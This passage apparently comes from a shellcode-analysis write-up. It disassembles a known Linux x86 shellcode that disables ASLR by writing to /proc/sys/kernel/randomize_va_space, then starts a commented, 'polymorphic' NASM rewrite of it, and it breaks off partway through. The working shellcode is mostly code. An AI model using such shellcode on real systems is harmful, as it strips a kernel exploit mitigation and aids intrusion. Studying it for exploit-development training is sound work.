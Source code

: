 ```console
 8048096:       b0 08                   mov    $0x8,%al
 8048098:       cd 80                   int    $0x80
 804809a:       89 c3                   mov    %eax,%ebx
 804809c:       50                      push   %eax
 804809d:       66 ba 30 3a             mov    $0x3a30,%dx
 80480a1:       66 52                   push   %dx
 80480a3:       89 e1                   mov    %esp,%ecx
 80480a5:       31 d2                   xor    %edx,%edx
 80480a7:       42                      inc    %edx
 80480a8:       b0 04                   mov    $0x4,%al
 80480aa:       cd 80                   int    $0x80
 80480ac:       b0 06                   mov    $0x6,%al
 80480ae:       cd 80                   int    $0x80
 80480b0:       40                      inc    %eax
 80480b1:       cd 80                   int    $0x80
```
+ This is in the AT&T Assembly format, and not the Intel format.
+ Since I am used to the Intel Syntax, the first thing I did was reformat the code into a nasm file.

#### Commented Intel Version of the Shellcode
```nasm
; Filename: offASLR.nasm
; Author:   boku
; Purpose:  Polymorphic version of Jean Pascal Pereiras
;  Linux x86 ASLR deactivation - 83 bytes
; Original: http://shell-storm.org/shellcode/files/shellcode-813.php
global _start
section .text:
_start:
xor    eax,eax    ; clears eax register
push   eax        ; pushes Null onto stack
                  ; Null terminates the string
push   0x65636170
;  python -c 'print "65636170".decode("hex")'
;    ecap
push   0x735f6176
;  python -c 'print "735f6176".decode("hex")'
;    s_av
push   0x5f657a69
;  python -c 'print "5f657a69".decode("hex")'
;    _ezi
push   0x6d6f646e
;  python -c 'print "6d6f646e".decode("hex")'
;    modn
push   0x61722f6c
;  python -c 'print "61722f6c".decode("hex")'
;    ar/l
push   0x656e7265
;  python -c 'print "656e7265".decode("hex")'
;    enre
push   0x6b2f7379
;  python -c 'print "6b2f7379".decode("hex")'
;    k/sy
push   0x732f636f
;  python -c 'print "732f636f".decode("hex")'
;    s/co
push   0x72702f2f
;  python -c 'print "72702f2f".decode("hex")'
;    rp//
; Full String:  //proc/sys/kernel/randomize_va_space
mov    ebx,esp   ; Puts the memory location of our string that
                 ;  is on top of the stack into the ebx register
```